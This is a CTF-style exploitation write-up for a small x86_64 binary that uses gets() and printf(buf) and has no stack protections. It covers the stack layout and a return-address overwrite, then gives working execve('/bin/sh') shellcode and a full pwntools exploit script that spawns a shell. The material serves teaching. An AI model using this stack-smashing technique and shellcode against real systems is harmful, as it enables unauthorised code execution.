

# Challenge

Small x86_64 Linux binary: prints stack, calls `gets(buf)` (32 bytes), `printf(buf)`, prints stack again. Compiled with execstack, no canary, no PIE.

# Vulnerabilities

* **Buffer overflow** via `gets()` — unlimited input into 32‑byte buffer.
* **Format‑string risk** from `printf(buf)` if input contains `%`.

# Observed stack layout

`buf` at `0x7fffffffd810` → 32 bytes; saved RBP at `0x...d830`; saved RIP at `0x...d838` (contained `0x7fffffffd840`).

# Exploit strategy

Overwrite saved RIP with an address that points to attacker-controlled shellcode placed on the stack; return into that shellcode.

# Shellcode 

### one‑line

Classic `execve("/bin/sh", argv, NULL)` — builds `"/bin/sh"` on stack and issues syscall `59`.

### source

```bash
; gcc -nostdlib -o shellcode shellcode.s -masm=intel

.intel_syntax noprefix
.global _start
_start:
    xor rdx, rdx                # rdx = 0 (envp = NULL)

    mov rax, 0x68732f6e69622f2f # "/bin//sh" (temporary into rax)
    push rax                    # push "/bin//sh" on stack
    mov rdi, rsp                # rdi -> "/bin//sh"

    push rdx                    # push NULL terminator for argv
    push rdi                    # push pointer to "/bin//sh"
    mov rsi, rsp                # rsi -> argv (pointer to [rdi, NULL])

    xor rax, rax                # clear rax
    mov al, 59                  # syscall number 59 (execve)
    syscall
```


# Payload 


```python

from pwn import *

chal = ELF('./chal')

context.binary = chal

conn = process([chal.path])

def main():
    
    addr_shellcode = 0x7fffffffd840
    shellcode = asm('''
        .intel_syntax noprefix
        .global _start
    _start:
        xor rdx, rdx
        push rdx
        mov rax, 0x68732f6e69622f
        push rax 
        mov rdi, rsp
        push rdx
        push rdi 
        mov rsi, rsp 
        mov rax, 0x3b
        syscall
    ''', arch = 'amd64')

    payload = b'\0' * 0x20
    payload += p64(0)
    payload += p64(addr_shellcode)
    payload += shellcode
    
    conn.sendlineafter(b'Input: ', payload)
    conn.interactive()

if __name__ == '__main__':
    main()

```

